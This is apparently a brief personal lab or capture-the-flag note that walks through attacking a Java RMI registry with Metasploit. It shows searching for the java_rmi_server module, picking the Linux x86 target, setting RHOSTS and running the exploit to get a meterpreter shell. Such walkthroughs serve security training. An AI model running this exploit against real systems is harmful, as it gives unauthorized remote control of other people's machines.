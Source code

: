 first i searched the metasploit
**msfconsole**
then **search rmiregistry**
Matching Modules
================
   #  Name                                        Disclosure Date  Rank       Check  Description
  -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/misc/java_rmi_server          2011-10-15       excellent  Yes    Java RMI Server Insecure Default Configuration Java Code Execution
   1    \_ target: Generic (Java Payload)         .                .          .      .
   2    \_ target: Windows x86 (Native Payload)   .                .          .      .
   3    \_ target: Linux x86 (Native Payload)     .                .          .      .
   4    \_ target: Mac OS X PPC (Native Payload)  .                .          .      .
   5    \_ target: Mac OS X x86 (Native Payload)  .                .          .      .

i got this so i selected **3rd** where 0 is the exploit and 3rd is the action or say the os
then set RHOSTS and then exploit
i got the meterpreter shell
![[Pasted image 20241224171354.png]]
